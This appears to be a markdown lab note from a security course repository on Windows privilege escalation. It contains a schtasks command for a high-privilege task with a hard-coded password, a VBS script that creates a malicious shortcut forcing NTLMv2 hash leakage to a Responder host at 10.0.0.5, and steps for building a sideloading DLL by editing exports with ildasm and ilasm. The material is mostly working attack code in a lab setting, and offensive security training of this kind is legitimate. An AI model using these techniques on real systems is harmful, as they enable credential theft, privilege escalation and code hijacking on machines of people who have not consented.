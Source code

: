 # Additional PrivEsc





# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```

---

NTLM RELAYING

save the following as "mail_link.vbs", run it - it creates a malicious link that authenticates to responder sending its NTLMv2 hash.

```vbs
Set objShell = WScript.CreateObject("WScript.Shell")
Set lnk = objShell.CreateShortcut("evil_link.lnk")
lnk.TargetPath = "\\10.0.0.5\icon.ico" 	
lnk.Arguments = "" 		
lnk.Description = "" 	
lnk.IconLocation = "\\10.0.0.5\icon.ico" 
lnk.WorkingDirectory = "" 
lnk.Save
```

<https://github.com/AkuCyberSec/firefox-ntlm-hash-capture-via-lnk-download>

# NOT YET WORKING !!! Building your Csharp sideload DLL

- Make C# dll project
- create functions
- install ddlexport nuget
- Mutex

![image](./images/dll_hijack_library.jpg)

DLL without Exports

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;

namespace SharpSideloadDLL
{
    public class Class1
    {
        public static void GetFileVersionInfoW()
        {
            sideload();
        }
        public static void VerQueryValueW()
        {
            sideload();
        }
        public static void GetFileVersionInfoSizeW()
        {
            sideload();
        }
        public static void sideload(
            string message = "Sideloaded!", // Default message
            string title = "Sideload Test", // Default title
            MessageBoxIcon icon = MessageBoxIcon.Information) // Default icon
        {
            MessageBox.Show(message, title, MessageBoxButtons.OK, icon);
        }


    }
}
```

![image](./images/dll_hijack_noexports.jpg)

Now use ildasm from a VS Command Prompt

```powershell
C:\THEV\Labs\CsharpSideload\SharpSideloadDLL\SharpSideloadDLL\bin\x64\Release
ildasm.exe /out:noexports.il SharpSideloadDLL.dll
```

Open the noexports.il and add `.export [0]` to one of the functions, save as `exports.il`

![image](./images/dll_hijack_editil.jpg)

![image](./images/dll_hijack_ildasm.jpg)

Then reassemble with ilasm (not ilDasm)

```powershell
ilasm.exe Exports.il /out:SharpSideloadDLL.dll /DLL
```

You can test with rundll32:

```powershell
rundll32.exe ManualExports.dll,GetFileVersionInfoW
```
![image](./images/dll_hijack_rundll.jpg)


And check in CFF Explorer - you will see the export directory with 1 exported function: `GetFileVersionInfoW`
![image](./images/dll_hijack_cffexports.jpg)

Add nuget Unmanaged Export

edit .csproj and replace the nuget line

```xml
<Import Project="$(MSBuildProjectDirectory)\packages\UnmanagedExports.1.2.7\tools\RGiesecke.DllExport.targets" Condition="Exists('$(MSBuildProjectDirectory)\packages\UnmanagedExports.1.2.7\tools\RGiesecke.DllExport.targets')" />
```